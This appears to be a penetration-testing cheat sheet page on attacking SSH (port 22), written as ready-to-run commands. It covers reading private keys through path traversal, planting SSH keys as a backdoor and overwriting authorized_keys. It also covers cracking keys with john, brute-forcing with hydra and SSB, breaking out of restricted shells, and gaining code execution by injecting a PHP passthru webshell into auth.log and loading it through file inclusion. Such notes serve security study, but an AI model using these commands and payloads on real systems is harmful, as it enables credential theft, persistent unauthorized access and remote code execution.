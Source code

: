 ```yaml
---
layout: default
title: SSH
parent: TCP
nav_order: 4-2
---
```

# SSH | 22
## Methodology
- Do you have valid credentials?
- Do you have real system-level users in which to access SSH with?
- ALWAYS check for user password re-use
- Dealing with id_rsa files - ALWAYS chmod 600 id_rsa
- Collect user SSH keys if able to read: "id_rsa" e.g. somefile.php?file=../../../../home/user/.ssh/id_rsa
- If able to write, drop a SSH key into the user or root directory for login (/root/.ssh/id_rsa)
- Are you able to read the SSH logs (SSH Log Poisoning): /var/log/auth.log

<br/>
#### Restrictive Shell
If you have access to the <i>echo</i> command it is possible to use the built-in API to break out:
<br />
```echo os.system("/bin/bash")```
<br />
Break out of <b> RBash </b>:
``` ssh restricted@$IP -p 31678 -t "bash --noprofile"
OR 
ssh user@$IP "/bin/sh"```

<br />
#### SSH Access Denied - pty restricted
- If you can read the 'authorized_keys' file, you may see there is a 'no-pty' option
- We may be able to replace this file if we have an SSH key for the target user using <b>scp</b> with a public key. 
Copy the authorised key, remove the 'no-pty' option  and then place it back on the target, overwriting the blocking file

``` scp -i id_rsa authorized_keys dude@192.168.150.150:.ssh/authorized_keys ```

> This uses an id_rsa key we have previously obtained for a user called 'dude' and replaces authorized_keys with our modified file

Note: If you are not allowed to produce output on the target, use the -O flag

``` scp -O  -i id_rsa authorized_keys dude@192.168.150.150:.ssh/authorized_keys ```


<br />
#### Check the following locations for private keys:
<ul>
<li>/home/* </li>
<li>/root/.ssh/* </li>
<li>/etc/ssh/ssh_config</li>
<li> /etc/ssh/sshd/ssh_config</li>
<li> ~/.ssh/*</li>
</ul>

<br />
#### Identify the host for the private key:
Check the following locations:
<ul>
<li> /etc/hosts </li>
<li> ~/.known_hosts </li>
<li> ~/.bash_history </li>
<li> ~/.ssh/config </li>
</ul>

<br />
#### Command Reference
<b> Search for files containing SSH Keys:</b>
```grep -ir "-----BEGIN RSA PRIVATE KEY-----" /home/*```
```grep -ir "BEGIN DSA PRIVATE KEY" /*```
<b> SSH with id_rsa </b>
``` ssh -i id_rsa user@$IP ```
<b> Crack id_rsa with John (SSH2John) </b>
``` ssh2john id_rsa > crackthis
john crackthis --wordlist=/usr/share/wordlists/rockyou.txt```
<b> SSH Keygen & Back Door (post exploitation) </b>
Generate a new SSH key pair with:
```ssh-keygen -b 2048 -t rsa -f ~/.ssh/new-key-name
chmod 600 new-key-name```
Drop the 'new-key-name.pub' file into the target /home/usr/.ssh directory.
Connect with:
```ssh -i new-key-name user@$IP```

<br />
### Tools
- <a href="https://github.com/pwnesia/ssb"> Secure Shell Bruteforcer (SSB) </a>
```curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin ```
```ssb [-p port] [-w wordlist.txt] [-t timeout]
      [-c concurrent] [-r retries] [-o output] [user@]hostname```

<br />
#### SSH Log Poisoning
RCE via SSH Log Poisoning:
Example PHP web server (capable of viewing the logs):
- Enter something like: ```testlogpoisoning/<?php passthru($_GET['cmd']); ?>``` 
- Refresh the accessible log page - find the newest entry (towards the bottom) and you may see the characters 'testlogpoisoning/'
> this verifies command execution after the format '/' providing executive authority over the machine
``` https://example.com/somefile.php?file=../../../../var/log/auth.log&cmd=id ```
> reopen the file, scroll down and find the results of the command printed

<br />
#### SSH Brute Force
- Hydra
``` hydra -V -L UserList -P PasswordList ssh://$IP ```
- SSB

<br />
#### SSH 'should' be running?
- Is there a HTTP proxy on the server? SSH may be running but not open to the world - instead of on 0.0.0.0, it may be local on 127.0.0.1
- If this is the case, it is possible to forward out the loopback address with <b> proxytunnel </b>
``` proxytunnel -p $IP:3128 -d 127.0.0.1:22 -a 4444 ```
> Spawn a daemon on our attacking machine (accessible on 4444)
``` ssh user@127.0.0.1 -p 4444 ```

<br />
###### [REFERENCES]
<a href="https://highon.coffee/blog/ssh-lateral-movement-cheat-sheet/#what-is-a-lateral-movement"> SSH Lateral Movement Cheatsheet </a>
